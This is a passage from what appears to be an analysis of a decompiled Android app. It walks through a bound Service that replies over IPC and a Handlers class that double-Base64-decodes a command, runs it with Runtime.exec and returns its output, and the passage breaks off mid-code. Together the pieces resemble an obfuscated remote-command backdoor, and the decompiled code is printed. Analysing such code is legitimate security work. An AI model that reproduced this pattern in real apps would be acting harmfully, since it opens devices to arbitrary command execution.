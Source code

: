 ```java
                    break;
            }
        }
    }

    @Override // android.app.Service
    public IBinder onBind(Intent intent) {
        return this.messenger.getBinder();
    }

    /* JADX INFO: Access modifiers changed from: private */
    public void sendReply(Message message, String reply) {
        try {
            Message replyMessage = Message.obtain((Handler) null, message.what);
            Bundle bundle = new Bundle();
            bundle.putString("reply", reply);
            replyMessage.setData(bundle);
            message.replyTo.send(replyMessage);
        } catch (RemoteException e) {
        }
    }
}
```

Analyzing `Handlers`

This Java code defines a utility class Handlers with a static method:

1. `executeCommand(String doubleEncodedCommand)`:
        Double `Base64` Decoding: It attempts to decode the input doubleEncodedCommand twice using `Base64` `(if the Android SDK version is 26 or higher)`.
2. Command Execution: It uses `Runtime.getRuntime().exec()` to execute the decoded command.
3. Output Capture: It reads the standard output and error streams of the executed command.
4. Result Aggregation: It builds a string containing the command's output and exit value (and potentially "ERROR" if anything was written to the error stream).
5. Return Value: It returns the aggregated output string.

```java
...
/* loaded from: classes3.dex */
public class Handlers {
    public static String executeCommand(String doubleEncodedCommand) throws Exception {
        String singleDecodedCommand = null;
        if (Build.VERSION.SDK_INT >= 26) {
            singleDecodedCommand = new String(Base64.getDecoder().decode(doubleEncodedCommand));
        }
        String command = null;
        if (Build.VERSION.SDK_INT >= 26) {
            command = new String(Base64.getDecoder().decode(singleDecodedCommand));
        }
        Process process = Runtime.getRuntime().exec(command);
        StringBuilder output = new StringBuilder();
        BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
        try {
            BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
            while (true) {
                try {
                    String line = reader.readLine();
                    if (line == null) {
                        break;
                    }
                    output.append(line).append("\n");
                } finally {
```